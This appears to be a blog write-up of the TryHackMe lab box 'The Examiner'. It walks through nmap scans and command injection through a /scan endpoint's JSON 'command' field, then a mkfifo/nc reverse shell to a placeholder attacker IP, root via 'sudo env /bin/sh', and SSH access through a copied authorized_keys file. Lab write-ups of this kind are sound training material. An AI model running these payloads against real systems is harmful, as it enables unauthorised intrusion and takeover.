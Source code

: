 ```yaml
---
layout: default
Title: The Examiner
---
```


# THE EXAMINER !!!

![Screenshot_20220516_011333](https://user-images.githubusercontent.com/24994796/168499485-477468fd-c593-4fbb-ab07-51f6d9a1b077.png)

This led us to TryHackMe, I got excited xD 🤤

![Screenshot_20220516_014633](https://user-images.githubusercontent.com/24994796/168499573-68a4fb33-0a42-4147-9f2d-ef3d490f92e2.png)

THE EXAMINER !!!
Name sounded tough aye ? but it was pretty tricky yeah, 
Let's Jump Right Into it!!!

# ENUMERATION

First Things First We Enumerate
Let's know what port are open, what's running and all that
100% of all the time you enumeration is the key to pwning a machine

**Let's start with Nmap **
So I ran 3 scans
- A Quick Port (TCP) Scan
  -   ```nmap -sS -T4 --min-rate 5000 -Pn -oA quickie 10.10.185.57```
- A Quick UDP Scan
  -   ```nmap -sU -T4 --min-rate 5000 -Pn -oA udpquickie 10.10.185.57
- A Full Port Scan with Version Enumeration
  -   ```nmap -sVC -A -AO -T4 --min-rate 500 -p- -Pn -oA fullie 10.10.185.57```

![Screenshot_20220516_015241](https://user-images.githubusercontent.com/24994796/168500184-a52ff546-e25b-460f-834a-5025e04ef297.png)

So Yh Only A Single Port is Open and No UDP port Is Open


# Initial FOothold

So I Tried curl on it to see if the http server will return anything, also some services use port 5000 as default HTTP 
Returned Some Source code

![Screenshot_20220516_012408](https://user-images.githubusercontent.com/24994796/168501106-098afb91-7166-48d1-b01e-5b1a02899365.png)

So let's go to an actual browser and see what's up

![Screenshot_20220516_021424](https://user-images.githubusercontent.com/24994796/168500801-4bdfe7bd-83d5-469b-b017-c7278092c34b.png)

So yh Intercepting the request with burp (or zap) which ever you're comfortable with
![Screenshot_20220516_022624](https://user-images.githubusercontent.com/24994796/168501542-97cf1ef1-6d6c-4c8f-a9bd-a5bc49179f5e.png)
![Screenshot_20220516_022834](https://user-images.githubusercontent.com/24994796/168501553-fde3c3af-ef8a-4cd1-9a1a-3b8a21133efd.png)
![Screenshot_20220516_022950](https://user-images.githubusercontent.com/24994796/168501555-db6db8c9-1a63-43cb-9fb0-a6a90d1b5bfd.png)

When I tried an IP I got nothing, after lot's of trial and error
I got it to return me response

Found out the IP parameter takes two strings:then any thing and it tells you if the port is open or closed
But how does that help us ? Remember when we curl the site we got some Jscript and it said something about IP:Host and all

![Screenshot_20220516_012447](https://user-images.githubusercontent.com/24994796/168502041-bdec4db6-c8f5-4f44-ac63-a65f0c6d4487.png)

```curl -s 10.10.220.183:5000```

So as you can see below we can execute commands on the machine

![Screenshot_20220516_013414](https://user-images.githubusercontent.com/24994796/168502151-9b624b23-63fa-49fa-b34e-ee282dba5aae.png)

```$curl -X POST 10.10.220.183:5000/scan -H 'Content-Type: application/json' -d '{"ip":"aa:5000", "command": "whoami"}'```

Set up a listener (rlwrap makes stabilization easier)

```rlwrap nc -lvnp PORT```

```curl -X POST 10.10.220.183:5000/scan -H 'Content-Type: application/json' -d '{"ip":"aa:5000", "command": "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc your-attacking-machine-ip 4242 >/tmp/f"}'```

![Screenshot_20220516_013457](https://user-images.githubusercontent.com/24994796/168502571-2a38b9a0-7e8c-4640-80c0-e21056267bec.png)

```/usr/bin/script -qc /bin/bash /dev/null```
To get tty and fully stabilize shell

# Privilege Escalation
**We get our shell, now let's escalate our privileges**

We got root via sudo privilege escalation method 

![Screenshot_20220516_013657](https://user-images.githubusercontent.com/24994796/168503111-c52bf07b-690b-431b-8ec5-bf25c1ba9a80.png)

```Sudo -l```
We see we can run env as root so head over to gtfobin look for env and use the command for privilege escalaion
```sudo env /bin/sh```

Yh we're in after enumerating for all txt file and checking every user home directory we find nothing
Viewing root user bash history we see some thing funny

![Screenshot_20220516_013732](https://user-images.githubusercontent.com/24994796/168503298-65ee9f3b-2cbc-4e8c-abe9-9cb5c7fc48ac.png)

Reading it showed us ther was a flag in sshuser but it was deleted, at this point I nearly snapped cos WTF!!!
I thought it was other users initially but on second thoughts I remembered THM resets the boxes and clears user modifications think of it like a rollback
The name sshuser also was sus actually and when reading the bash history I saw somethings bout ssh 

At this point, I went to the user ```su sshuser``` I'm root and root doesn't need your permission to switch to any user !!!

![Screenshot_20220516_031255](https://user-images.githubusercontent.com/24994796/168503897-e24b4da2-90af-4d45-9f40-0703e3c12db8.png)

![Screenshot_20220516_014035](https://user-images.githubusercontent.com/24994796/168504747-f103e5ef-6656-4b7d-ab63-3f5e5f365a1e.png)

So all that's left is to create authorized_keys in the newly generated .ssh folder 

```cd .ssh```

```cp id_rsa.pub authorized_keys```

```ss -tulnp``` To view listening ports, If we find one that's listening and it didn't turn up in our scan we can port forward to the port this technique is mostly used to beat firewall and docker breakout sometimes

A wiseman once said, "Hackers don't break in, We login"
```ssh -i id_rsa sshuser@localhost```
![Screenshot_20220516_014136](https://user-images.githubusercontent.com/24994796/168504880-85af0fbf-4429-423a-8ad4-b16eda5b5a39.png)

And We Done That's A Wrap !!!
![gif](https://media1.giphy.com/media/3knKct3fGqxhK/giphy.gif)


 Hit me up on [Twitter](https://twitter.com/abdulmalik_ttg) if anything Isn't clear



<br> <br>
[Back To Home](../../index.md)
<br>

  



